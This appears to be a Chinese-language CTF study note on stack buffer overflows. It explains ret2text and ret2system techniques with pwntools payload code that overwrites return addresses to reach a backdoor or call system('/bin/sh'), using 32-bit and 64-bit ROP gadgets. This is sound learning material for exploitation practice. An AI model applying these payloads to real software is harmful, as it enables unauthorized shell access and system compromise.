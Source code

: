 ### 栈溢出

#### ret2**

##### ret2text:

有backdoor函数（直接给权限），存在栈溢出，直接溢出攻击到指定位置。

```python
from pwn import *
elf = ELF('pwn')
backdoor = elf.sym['backdoor']

#32位ebp+4
payload = b'A'*(0x12+4)+p32(backdoor)

#64位要加ret地址在返回函数前
#64位rbp+8
payload = b'a'*(0x12+8)+p64(ret)+p64(backdoor)

io.sendline(payload)
```

有后门也可以溢出，但是有小心机，需要利用一定程序内部的变化去溢出到后门函数

**1.** 比如“I”->“IronMan”，最后在strcpy的时候发生了溢出，这里的溢出值要计算。

**2.** 在函数内部需要填写一些参数符合要求如：payload='a'*(0x6c+4) + p32(flag) + p32(0) + p32(0x36c) + p32(0x36d)



##### ret2system:

没有现成的backdoor但是有system函数和bin/sh字段可以调用，我们可以手动构建一个backdoor。

对于32位：

如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，使用 p32 函 数将整数值0转换为4字节的字符串。这个字符串将作为 system 函数的第二个参数，用于提供一个指向 空值的指针作为 system 函数的第二个参数。当然在这里使用其他任意4个字符进行覆盖也可以 如‘aaaa’,’bbbb’等均可。 p32(bin_sh) : 这部分使用 p32 函数将 bin_sh 的地址转换为一个4字节的字符串。 bin_sh 通常是指向包含要执行的命令的字符串（如 /bin/sh ）的指针。该字符串将作为 system 函数的第一个参数。 （可以看出参数是倒着一个个输入的）

对于64位：

与32位不同的是它的穿参方式不同，需要利用pop rdi和ret这两个指令实现参数传递

pop_rdi 指令用于将值从栈上弹出并存储到寄存器rdi中。在这个payload中，它用于准备传递 给 system 函数的第一个参数。

```python
#可以用sh代替bin/sh
#sh还可以等价于$0
#32位
system = elf.sym['system']
bin_sh = 0x8048750#查找地址

payload = 'a'*(0x12+4) + p32(system) + p32(0) + p32(bin_sh)
io.sendline(payload)

#64位
elf = ELF('./pwn')
system = elf.sym['system']
bin_sh = 0x400808
pop_rdi = 0x4007e3  # 0x00000000004007e3 : pop rdi ; ret
ret = 0x4004fe      # 0x00000000004004fe : ret 

payload = 'a'*(0xA+8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
io.sendline(payload)

```
